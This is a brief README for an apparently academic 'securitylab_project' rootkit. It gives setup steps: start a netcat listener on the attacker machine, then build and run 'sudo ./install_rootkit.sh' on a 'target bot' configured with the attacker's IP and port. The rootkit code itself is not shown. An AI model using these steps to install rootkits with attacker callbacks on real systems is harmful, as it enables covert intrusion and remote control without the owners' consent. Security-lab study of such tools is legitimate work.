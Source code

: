 # securitylab_project

How to Run? <br />
On Attacker side: <br />
nc -l -p <listen_port> -vvv <br />

On target bot side: <br />
make <br />
sudo ./install_rootkit.sh <br />
You may modify the attacker server ip address & listen port in the script <br />

